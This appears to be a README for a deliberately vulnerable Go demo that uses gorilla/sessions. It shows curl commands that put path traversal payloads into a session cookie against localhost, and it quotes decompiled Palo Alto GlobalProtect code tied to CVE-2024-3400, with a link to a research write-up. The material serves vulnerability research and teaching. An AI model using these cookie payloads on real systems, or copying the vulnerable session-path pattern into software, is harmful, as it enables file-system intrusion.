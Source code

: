 # A Gorilla Session Vulnerable to Path Directory Traversal

```bash
export SESSION_KEY=gorilla
```

```bash
go run escapezoo.go
```

# Path Directory Traversal

```bash
curl --cookie "zoo=$PREFIX/tmp" http://localhost:8080
```

```bash
curl --cookie "zoo=$HOME/" http://localhost:8080
```

# Palo Alto Global Protect CVE-2024-3400 related vulnerability

```if ( os_IsNotExist(fmta._r2) )
      {
        store_8b = (github_com_gorilla_sessions_Store_0)net_http__ptr_Request_Context(r);
        ctxb = store_8b.tab;
        v52 = runtime_convTstring((string)s->path);
        v6 = (_1_interface_ *)runtime_newobject((runtime__type_0 *)&RTYPE__1_interface_);
        v51 = (interface__0 *)v6;
        (*v6)[0].tab = (void *)&RTYPE_string_0;
        if ( *(_DWORD *)&runtime_writeBarrier.enabled )
          runtime_gcWriteBarrier();
        else
          (*v6)[0].data = v52;
        storee.tab = ctxb;
        storee.data = store_8b.data;
        fmtb.str = (uint8 *)"folder is missing, create folder %s";
        fmtb.len = 35LL;
        fmt_16a.array = v51;
        fmt_16a.len = 1LL;
        fmt_16a.cap = 1LL;
        paloaltonetworks_com_libs_common_Warn(storee, fmtb, fmt_16a);
        err_1 = os_MkdirAll((string)s->path, 0644u);
```

[https://labs.watchtowr.com/palo-alto-putting-the-protecc-in-globalprotect-cve-2024-3400/]
